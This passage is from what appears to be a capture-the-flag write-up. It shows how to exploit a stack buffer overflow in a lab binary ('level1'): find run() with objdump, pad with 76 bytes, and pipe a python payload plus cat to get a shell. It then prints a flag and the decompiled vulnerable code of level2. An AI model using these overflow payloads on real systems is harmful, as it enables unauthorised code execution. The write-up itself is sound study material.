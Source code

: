 So what we can do here is changing the return address of the main in the stack, making it return to `run()` instead of the normal return.

We therefore need to find the address of `run()` with `objdump`: 
```bash
objdump -d level1
```

Output: 
```bash
08048444 <run>:
```

And transform it to little endian and hex format:
```
\x44\x84\x04\x08
```
Finally, we need to generate a big enough number of backfill characters to cause the overflow:
```bash
python -c 'print("A" * 76)'
```

The payload now looks like this:

```bash
python -c 'print("A" * 76 + b"\x44\x84\x04\x08")'
```

Last problem though, the shell opened is not interactive and returns immediately. We need to keep the ouput open using cat:
```bash
(python -c 'print("A" * 76 + b"\x44\x84\x04\x08")'; cat) | ./level1
```

Flag: `53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77`

Reference: [Buffer Overflow Examples, Overwriting a function pointer - protostar stack3 - 0xRick’s Blog](https://0xrick.github.io/binary-exploitation/bof3/)
# level2

```c
void p(void)
{
  uint address;
  char local_50 [76];
  
  fflush(stdout);
  gets(local_50);
  if ((address & 0xb0000000) == 0xb0000000) {
    printf("(%p)\n",address);
    _exit(1);
  }
  puts(local_50);
  strdup(local_50);
  return;
}

void main(void)
{
  p();
  return;
}
```
